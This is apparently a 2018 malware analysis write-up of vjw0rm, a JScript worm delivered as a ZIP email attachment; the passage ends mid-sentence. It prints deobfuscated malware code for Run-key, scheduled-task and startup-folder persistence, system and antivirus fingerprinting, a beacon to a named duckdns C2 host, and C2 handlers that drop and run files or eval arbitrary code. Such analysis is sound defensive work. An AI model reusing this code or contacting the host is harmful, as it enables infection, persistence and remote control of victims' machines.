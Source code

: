 #+author: Arkeopix
#+email:  jerome.mendiela@protonmail.ch
#+title:  vjw0rm, an analysis
#+date:   <2018-01-18 Thu>

* Intro
  vjw0rm might not be the sexiest malware out there, but it's still good enough to trick users into
  executing it. It offers a good example of malware behaviour and shows some techniques used by malware author
  to persists and propagate. This analysis will focus on what vjw0rm does, how and will briefly speculate as to
  why.

  vjw0rm (refered to as "the sample" for the rest of the document) is a malicious ZIP archive
  sent as an attachment in an email.

  When executed, the sample will try and persist, gather information about the conputer its being 
  ran on and enter a loop, making contact with the C2 server to get instructions.
  
  the sample is able to execute scripts and arbitraty javascript, self update and propapate itself 
  through USB devices.

  Sadly i lost the original email, but i remember having a good laugh because it was litteraly asking the user to 
  run the extracted file file as administrator, "for better performances". 

  #+name: sha256 hash
  #+begin_src sh
    $> sha256sum scan-743457657.zip                                          
    $> 3e1c170dae4154581f7f37e20fcdd85ae39f2a98c7a2b1fdb153a2dfa5bae486  scan-743457657.zip
  #+end_src

* Mechanisms
** Obfuscation
   The sample is really quite simple as the payload is url encoded.
   All we need to do is calling some kind of urldecode function and get the code itself.
   As for the code, it is obfuscated with a mix of global variables, references to indexes 
   in arrays, "getter" functions and almost meaningless names 
   (=sh= holds the WScript.Shell object, for example). 
   Nothing anyone familiar with reading code could not understand.
   
   I don't feel like this part needs some extra attention.
  
** Persitence
   Upon starting, the sample will try to read the registry key =HKCU\\vjw0rm=, the value will be either
   TRUE, FALSE or the key will not exist and an exception will be raised. The catch block will set the 
   key based on the position of the sample relative to the top of a directory.

   #+begin_src js
     try {
         // shell.RegRead('HKCU\\vjw0rm')
         // Reading registry key HKCU\\vjw0rm and storing it into isInTopDir. value is either TRUE or FALSE
         isInTopDir = shell.RegRead(RegistryEntries[2]);
     } catch(err) {
         var sv = ScriptFullName.split("\\");
         if (":\\" + sv[1] + "== :\\" + ScriptName) { // If script is in top dir (c:\, e:\, etc)
             isInTopDir = "TRUE";
             // Writing REG_SZ key HKCU\\vjw0rm with TRUE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         } else {
             isInTopDir = "FALSE";
             // Writing REG_SZ key HKCU\\vjw0rm with FALSE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         }
     }
   #+end_src
   
   Then the sample will call a function in order to persist, the deobfuscated code is as follow
   
   #+begin_src js
     function Persist() {
         // Creates a path in tmp for the script
         var PathToScriptInTMP = GetEnvironementVar("TEMP") + BackSlash + ScriptName;
         try {
             // copy file in tmp
             FileSystem.CopyFile(ScriptFullName,PathToScriptInTMP,true);
         } catch(err) {
         }
         try {
             // Writes registry REG_SZ HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\URCWXKQC01 to start the newly created script in tmp
             shell.RegWrite(RegistryEntries[0] + RegistryEntries[3] + "URCWXKQC01","\"" + PathToScriptInTMP + "\"",RegistryEntries[5]);
         } catch(err) {
         }
         try {
             // Create a scheduled task named skype to run the script every 30 minutes 
             shell.run("Schtasks /create /sc minute /mo 30 /tn Skype /tr \"" + PathToScriptInTMP,false);
         } catch(err) {
         }
         
         try {
             // Shell.Application
             var app = ReturnWindowsTool(2);
             // Write the script in startup folder. app.NameSpace(7).Self.Path returns path to startup folder
             FileSystem.CopyFile(ScriptFullName, app.NameSpace(7).Self.Path + "\\" + ScriptName,true);
         } catch(err) {
         }
     }
   #+end_src
   
   As you might see, the sample copies itself in the user temp folder, namely =C:\Users\${USER}\AppData\Local\Temp\${SCRIPT_NAME}=. Then
   it will try all of the following:
   1) Add itself to the Run key in HKLM, meaning that on success the script will be executed each time a user logs on.
      The new key under Run is =URCWXKQC01=
   2) Create a scheduled task called Skype that triggers an execution every 30 minutes
   3) Copy itself in the current user startup folder, i.e. =C:\Users\${USER}\AppData\Roaming\Microsoft\Windows\StartMenu\Programs\Startup\${SCRIPT_NAME}=
      
   As the exceptions are never handled, one could think they're here to hinder readability
** C2 communications
   One of the first thing the sample does is building a fingerprint of the computer it being ran on.
   The details are as follow: 
   #+begin_src js
     function FingerPrint() {
         var serial,NT,i;
         if (FileSystem.fileexists(GetEnvironementVar("Windir") + "\\Microsoft.NET\\Framework\\v2.0.50727\\vbc.exe")) {
             NT ="YES";
         } else {
             NT = "NO";
         }
         // windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\
         serial = HDDSerial + BackSlash + GetEnvironementVar("COMPUTERNAME") + BackSlash + GetEnvironementVar("USERNAME") + BackSlash + GetInfo(2) + BackSlash + GetInfo(4) + BackSlash + BackSlash + NT + BackSlash + isInTopDir + BackSlash;
         return serial;
     }
   #+end_src
   
   This piece of code just concatenates different bits of information about the computer in order to create an identity for the computer, which might
   be used by the C2 server in order to identify and deliver different stages over time.
   The information is gathered through the [[https://msdn.microsoft.com/en-us/library/aa394525(v%3Dvs.85).aspx][winmgmts]] WMI service, running under the LocalSystem account.

   #+begin_src js
     function GetInfo(Action) {
         var s;
         // Get the os version
         if (Action == 2) {
             // GetObject('winmgmts:').InstancesOf('Win32_OperatingSystem');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[2]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.Caption;
                 break;
             }
         }
         // Enumerate Antivirus product and return the name of the AV
         if (Action == 4) {
             var wmg = "winmgmts:\\\\localhost\\root\\securitycenter";
             // GetObject(wmg).InstancesOf('AntiVirusProduct');
             s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 var str = it.DisplayName;
             }
             if (str !== '') {
                 // Look in winmgmts:\\\\localhost\\root\\securitycenter2
                 wmg = wmg + "2";
                 // GetObject(wmg).InstancesOf('AntiVirusProduct');
                 s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
                 en = new Enumerator(s);
                 for (; !en.atEnd();en.moveNext()) {
                     it = en.item();
                     return it.DisplayName;
                 }
             } else {
                 return it.DisplayName;
             }
         }
         // Get the serial number of the hdd
         if (Action==6) {
             // GetObject('winmgmts:').InstancesOf('win32_logicaldisk');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[1]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.volumeserialnumber;
                 break;
             }
         }
     }
   #+end_src
   The fingerprint consist of information on OS version, antivirus info and hdd serial
   
   Once the fingerprint is ok, the sample will try to contact the C2 server, with the information in the User-Agent.
   #+begin_src js
     function PostFingerPrint(ressource,body) {
         // x = ReturnWindowsTool('XMLHTTP');
         // curl -A 'windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\' --data ''  http://postventa-vodafone2006.duckdns.org:1993/VreVre
         var X = ReturnWindowsTool(3);
         X.open('POST','http://postventa-vodafone2006.duckdns.org:1993/Vre' + ressource, false);
         X.SetRequestHeader("User-Agent:",FingerPrint());
         X.send(body);
         return X.responsetext;
     }
   #+end_src
   The response is then parsed and acted upon. The sample reponds to 7 commands from the C2.
   - Cl\
     Self termination. Upon receiving this message the sample will terminate itself
     #+begin_src js
       if (Response[0] === "Cl") {
           WScript.Quit(1);
       }
     #+end_src
   - Sc \
     Drop file and run it
     #+begin_src js
       if (Response[0] === "Sc") {
           var pathToDrop = GetEnvironementVar("temp") + "\\" + Response[2];
           var file = FileSystem.CreateTextFile(pathToDrop,true);
           file.Write(Response[1]);
           file.Close();
           shell.run(pathToDrop);
       }
     #+end_src
   - Ex\
     Executes arbitrary javascript
     #+begin_src js
       if (Response[0] === "Ex") {
           eval(Response[1]);
       }
     #+end_src
   - Rn\
     Modifies the HDDserial prefix, which is part of the fingerprint. As i was not able to analyse real traffic from the C2 server,
     i can speculate as to why this would be. My guess is that it might be used as a way to discriminate victims in order to deliver 
     different stages of the attack.
     #+begin_src js
       if (Response[0] === "Rn") {
           // Opens the script file for reading
           var scriptr = FileSystem.OpenTextFile(ScriptFullName,1); // ri
           var scriptContent = scriptr.ReadAll(); // fr
           scriptr.Close();
           HDDSerial = HDDSerial.split("_");
           scriptContent = scriptContent.replace(HDDSerial[0],Response[1]);
           // Opens the script for writing
           var scriptw = FileSystem.OpenTextFile(ScriptFullName,2,false); // wi
           scriptw.Write(scriptContent);
           scriptw.Close();
           shell.run("wscript.exe //B \"" + ScriptFullName + "\"");
           WScript.Quit(1);
       }
     #+end_src
   - Up\
     This command seems to allow the sample to self update, or at least drop a new version of itself on disk. 
     As the function changes the "|U|" to "|V|", which is the delimiter used to parse responses from the C2, this looks like a reasonable guess.
     #+begin_src js
       if (Response[0] === "Up") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; // s2
           var file = FileSystem.CreateTextFile(pathTemp,true); // ctf
           var content = Response[1]; // gu
           content = content.replace("|U|","|V|");
           file.Write(content);
           file.Close();
           // Executes the new script in batch mode, hides the window and focus previous window
           shell.run("wscript.exe //B \"" + pathTemp + "\"",6);
           WScript.Quit(1);
       }
     #+end_src
   - Un\
     This command seems to be another way to run arbitraty javascript. However, before running the JS some modifications
     are made on the string from the server. As one of the modification involves the registry key created under the Run key in HKLM,
     this seems to be tied to persistence in some way.
     #+begin_src js
       if (Response[0] === "Un") {
           var formatString = Response[1]; // s2
           var scriptPathTemp = GetEnvironementVar("Temp") + BackSlash + ScriptName;
           var regi = "URCWXKQC01";
           formatString = formatString.replace("%f",ScriptFullName).replace("%n",ScriptName).replace("%sfdr",scriptPathTemp).replace("%RgNe%",regi);
           eval(formatString);
           WScript.Quit(1);
       }
     #+end_src
   - RF\
     This just downloads a file and run it
     #+begin_src js
       if (Response[0] === "RF") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; //s2
           var file = FileSystem.CreateTextFile(s2,true); //fi
           file.Write(Response[1]);
           file.Close();
           shell.run(pathTemp);
       }
     #+end_src

** Propagation
   Everytime the sample tries to contact the C2, it also scan the instances of Win32_LogicalDisk
   in order to find a USB device and copy itself on it. The sample is copied with the =hidden= and =system= attributes,
   which means it is suposed to be invisible and cannot be deleted, depending on the rights associated with the execution.
   Then, the sample scan for the content 
